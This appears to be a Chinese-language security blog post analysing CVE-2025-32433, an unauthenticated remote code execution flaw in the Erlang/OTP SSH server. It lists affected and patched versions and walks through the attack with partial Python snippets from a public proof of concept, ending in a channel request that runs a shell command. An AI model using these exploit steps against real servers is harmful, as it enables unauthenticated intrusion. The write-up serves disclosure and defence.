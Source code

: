 #  CVE-2025-32433：Erlang/OTP SSH 服务器中的预授权 RCE  
 Ots安全   2025-06-28 11:59  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
网址  
- https://nvd.nist.gov/vuln/detail/CVE-2025-32433  
  
- https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce  
  
目标  
- OTP 25 ≤ 25.3.2.19  
  
- OTP 26 ≤ 26.2.5.10  
  
- OTP 27 ≤ 27.3.2  
  
解释  
  
Erlang OTP 是开放电信平台 (Open Telecom Platform) 的缩写。它是一个提供各种功能的平台，可高效开发基于 Erlang 的实时服务器或消息传递系统。  
  
该漏洞是 Erlang/OTP 的 SSH 服务器模块中的一个预授权 RCE（远程代码执行）漏洞，通过在身份验证过程之前错误地处理 SSH 消息，允许在无需身份验证的情况下远程执行任意代码。  
  
此漏洞允许攻击者在 SSH 连接期间发送未经身份验证的消息SSH_MSG-CHANNEL_OPEN（消息编号 90）和（消息编号 98），而这些消息应该在身份验证后发送。这些消息用于在用户完成身份验证后打开会话通道，并在通过打开的通道请求命令等时使用。SSH_MSG_CHANNEL_REQUESTSSH_MSG-CHANNEL_OPENSSH_MSG_CHANNEL_REQUEST  
  
根据SSH 协议规范 ( RFC 4254 )，这些消息应仅在身份验证后才被接受，并且任何提前发送的消息都应被视为会话终止。然而，在存在漏洞的 Erlang/OTP 版本中，SSH 守护进程并未强制执行此规则，这导致攻击者无需身份验证即可打开会话通道并发送 exec 请求。  
  
攻击流程  
  
以下是基于公开的PoC代码模拟的攻击流程。  
  
当客户端和服务器启动 SSH 会话时，它们会相互交换版本信息以验证协议兼容性。例如，客户端与服务器交换字符串 SSH-2.0-OpenSSH_8.9。  
  
```
s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")banner = s.recv(1024)
```  
  
  
客户端（攻击者）通过发送 SSH_MSG_KEXINIT 数据包来启动密钥交换过程。此消息包含密钥交换方法、加密算法、压缩选项等列表。  
  
```
defbuild_kexinit():    cookie = b"\x00" * 16    defname_list(l):        return string_payload(",".join(l))    # Match server-supported algorithms from the log    return (        b"\x14"        + cookie        + name_list(            [                "curve25519-sha256",                "ecdh-sha2-nistp256",                "diffie-hellman-group-exchange-sha256",                "diffie-hellman-group14-sha256",            ]        ) # kex algorithms        + name_list(["rsa-sha2-256", "rsa-sha2-512"]) # host key algorithms        + name_list(["aes128-ctr"]) * 2# encryption client->server, server->client        + name_list(["hmac-sha1"]) * 2# MAC algorithms        + name_list(["none"]) * 2# compression        + name_list([]) * 2# languages        + b"\x00"        + struct.pack(">I", 0) # first_kex_packet_follows, reserved    )     ...kex_packet = build_kexinit()s.sendall(pad_packet(kex_packet))
```  
  
  
在初始密钥交换之后，攻击者通过 SSH_MSG_CHANNEL_OPEN 消息请求创建会话通道。通常，只有在用户身份验证完成后才可以发出此请求。  
  
```
defbuild_channel_open(channel_id=0):    return (        b"\x5a"  # SSH_MSG_CHANNEL_OPEN        + string_payload("session")        + struct.pack(">I", channel_id) # sender channel ID        + struct.pack(">I", 0x68000) # initial window size        + struct.pack(">I", 0x10000) # max packet size    )...chan_open = build_channel_open()s.sendall(pad_packet(chan_open))
```  
  
  
然而，由于CVE-2025-32433漏洞，服务器无需身份验证即可接受此请求，因此攻击者即使没有身份验证也可以打开通道。  
  
攻击者发送 SSH_MSG_CHANNEL_REQUEST 消息，请求通过开放通道执行命令。此消息通常用于在经过身份验证的会话中执行命令。  
  
```
chan_req = build_channel_request(    command='os:cmd("touch /tmp/test").')s.sendall(pad_packet(chan_req))
```  
  
  
该漏洞允许未经身份验证的消息被接受。因此，包含“exec”有效负载的请求可能会被接受，从而允许攻击者远程执行任意shell命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafvy4MsdawXz4pQq3r4pg4rdYeMaJkqH8ICxHtvTriaCFoJlaH68CoDs2psLgqDTNBI2wv0kIibrXpw/640?wx_fmt=png&from=appmsg "")  
  
此漏洞已在 OTP 版本 27.3.3、26.2.5.11、25.3.2.20 及更高版本中修补。  
  
参考  
  
https://www.sonicwall.com/blog/pre-auth-rce-alert-critical-ssh-flaw-in-erlang-otp-cve-2025-32433-  
  
https://github.com/ProDefense/CVE-2025-32433  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
